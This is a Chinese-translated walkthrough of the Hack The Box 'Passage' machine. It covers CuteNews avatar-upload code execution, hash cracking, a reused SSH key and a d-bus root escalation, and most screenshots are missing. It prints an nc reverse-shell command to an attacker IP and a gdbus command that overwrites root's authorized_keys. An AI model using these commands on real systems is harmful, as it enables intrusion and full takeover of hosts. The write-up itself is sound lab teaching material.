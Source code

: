 # HTB 文章

> 原文：<https://infosecwriteups.com/htb-passage-writeup-172490d4045e?source=collection_archive---------0----------------------->

## 无限制文件上传| RCE |弱密码| d-bus 漏洞

![](img/184f2da4eaf80d5db93b208009a6b7db.png)

## 列举

Nmap TCP 扫描输出

![](img/35f29c880d4e831eb00b0173d87e2a3f.png)

## 据点

**************端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

IP 在端口 80 上运行，并有一个网页。在主页面的底部，写着 powered by **CuteNews - PHP 新闻管理系统。**

![](img/a7eafc7e3add34e6761184d8a7776e6a.png)

在网址上输入‘cute news’，你会看到它的登录门户页面。

![](img/1147df27b7a11f0275c7211672182df1.png)

注意 CuteNews 版本 2.1.2，搜索[漏洞利用](https://www.exploit-db.com/exploits/48458)！

CuteNews 2.1.2 易受“阿凡达”远程代码执行的攻击

## 反向外壳

![](img/f32636877b1656f8363132e2dc7757a2.png)![](img/28604d959142c870e135e285997b8e7e.png)![](img/977922875e72dc77eb6ef882b7bca4cb.png)![](img/e346af8278a22bb657e6a8dbf7c9d3e1.png)![](img/9cf086978ccee55da7b596db263bd911.png)

`10.10.10.206/CuteNews/uploads/avatar_komz_avatar.php?cmd=nc 10.10.14.16 1234 -e “/bin/sh”`

![](img/e653ed8b748f815bccd4cac613e80ab3.png)![](img/ef5baafa603793f16bcecdeabc75d7ea.png)

在主目录下找到两个用户:nadav 和 paul。

![](img/ba338665bea046d2e4a22848ddd6ff32.png)

## 横向运动

在一些枚举之后，我发现一些哈希字符串是 base64 编码的。解码得到了我的散列码。

`locate user`

![](img/e7c7283b0cfa19ccccc7cf36dd31142a.png)

这里，users.txt 是空的。然而，在/users 文件夹中有几个 php 文件，在这些文件中可以找到 base64 哈希。

`cat *`一起检查这些 php 文件中的所有内容。

![](img/46f712e19de2292179a4d0befe38a5ed.png)

最后，在反复尝试破解密码后，一个散列泄露了 paul 的敏感数据，包括密码散列。

![](img/a9d81944b3c5c45907bf0cece469ee6e.png)

破解密码…

![](img/badfc4bbbd48aa0eff2d8aaa73eba07f.png)![](img/ac149d47e1ddce23abd57bdfaccbd00b.png)![](img/5f34e782649078ff7867551456cb942e.png)![](img/dc555a30d99e20b650f918458a1d7a76.png)

**成功了！！！**

# 通道根

## **权限提升**

注意下面保罗和纳达夫共享同一个 RSA 公钥；这意味着保罗的私人密钥可以用来登录为纳达夫。

![](img/9aa36e0bf058f4438d7a2567ed0a044c.png)

*确保复制的私钥的权限设置为‘600’*

*确保/etc/hosts 中包含“passage 或 passage.htb”以解析主机名。*

![](img/cbd355be9e34d7a652a9b9824a4a5fc8.png)

运行`id`我们可以看到，与保罗不同，纳达夫属于 **sudo** 组。

![](img/cad03eb36eccc1c9c37eb7242415164c.png)

接下来，搜索我们可以作为根权限执行的 **suid** 文件。

`find / -perm -u=s -type f 2>/dev/null`

在这里寻找最薄弱的环节。

![](img/387a02a76eef629d95ec1c735bedd2c2.png)

研究技术在这里起着非常关键的作用，否则你将会为一个非常具体的目标的正确利用而筋疲力尽。

搜索 **dbus-1.0 权限提升**，你会发现一种可以利用的技术。

![](img/d3ab594eecf7f95d020c7f61cff98c4c.png)![](img/26699ea4eb5983471ec1af1bf0829340.png)![](img/f63cc0773343dde48c0b2a42d72b3af5.png)

从针对 [d-bus 漏洞](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)的文章中，要求您修改命令，以便将 authorized_keys 文件中 nadav 的公共 rsa 密钥保存到 root 的 authorized _ keys 中以便登录。

`gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true`

![](img/f4a059173d30e4edec32e2df082a7c50.png)![](img/cd46dddb1241d44ac190f0456721d829.png)![](img/92f7fca8e6d32e2f758270937c156150.png)
